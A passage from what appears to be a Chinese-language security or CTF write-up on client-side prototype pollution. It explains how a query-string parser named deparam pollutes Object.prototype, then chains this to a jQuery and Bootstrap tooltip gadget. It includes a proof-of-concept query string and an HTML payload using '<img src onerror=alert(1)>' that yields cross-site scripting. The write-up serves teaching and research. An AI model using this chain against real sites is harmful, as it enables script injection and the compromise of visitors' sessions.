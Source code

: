 ```js
          } else if (obj[key] !== undefined) {
            obj[key] = [obj[key], val];
          } else {
            obj[key] = val;
          }
        }
      } else if (key) {
        obj[key] = "";
      }
    });
  return obj;
};

var poc = {};
queryObject = deparam("a[0]=2&a[__proto__][__proto__][abc]=1");
console.log(poc.abc); // 1

```



经调试可以发现，deparam的功能是将参数进行分解，返回一个Object，存放所有参数。deparam函数存在递归的复制，这是非常典型的原型链污染出现的场景。

下一步就是寻找可用的gadget

原页面对Jquery进行了调用：

`$('[data-toggle="tooltip"]').tooltip()`



所以我们可以找一找[JQuery的gadget](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md)：

JQuery的poc有以下几种触发方式：

- `$(x).off`
- `$(html)` 
- `$.get `
- `$.getScript`

但是我们不知道tooltip是否会对上述几种方式进行调用，所以可以跟源码：

源码中存在这样的调用：

```js
  getTipElement() {
    this.tip = this.tip || $(this.config.template)[0]
    return this.tip
  }
```

$(this.config.template)中this.config.template就是上述的html，所以可以用下面的方法进行触发

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>','1']
</script>
<script>
  $('<div x="x"></div>')
</script>
```
